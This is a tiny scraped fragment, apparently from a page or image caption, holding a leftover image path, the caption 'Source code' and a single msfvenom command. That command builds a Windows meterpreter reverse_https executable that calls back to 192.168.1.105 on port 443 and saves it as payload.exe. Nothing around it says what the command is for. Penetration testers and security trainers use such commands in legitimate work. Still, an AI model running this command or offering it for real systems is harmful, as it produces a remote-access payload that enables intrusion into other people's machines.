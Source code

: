 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.105 LPORT=443 -f exe -o ~/payload.exe
